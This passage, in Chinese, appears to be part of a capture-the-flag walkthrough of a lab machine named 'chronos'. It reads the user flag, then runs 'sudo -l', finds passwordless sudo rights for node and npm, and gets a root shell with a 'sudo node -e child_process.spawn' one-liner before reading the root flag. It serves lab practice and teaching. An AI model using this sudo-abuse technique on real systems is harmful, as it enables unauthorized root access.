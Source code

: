 获取第一个flag

```shell
imera@chronos:/opt/chronos-v2/backend$ cd /home/imera
cd /home/imera
imera@chronos:~$ ls
ls
user.txt
imera@chronos:~$ cat user.txt
cat user.txt
byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
```



## 7. sudo提权

尝试进入root目录失败

```
imera@chronos:~$ cd /root
cd /root
bash: cd: /root: Permission denied
```



执行`sudo -l`

```
imera@chronos:~$ sudo -l
sudo -l
Matching Defaults entries for imera on chronos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
```

发现可以执行`npm`，`node`，那么我们可以利用Node shell提权。

执行如下命令

```shell
sudo node -e 'child_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

成功提权

```shell
imera@chronos:~$ sudo node -e 'child_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
<ild_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
id
uid=0(root) gid=0(root) groups=0(root)
```

获取到第二个flag
```shell
cd /root
ls
root.txt
cat root.txt
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
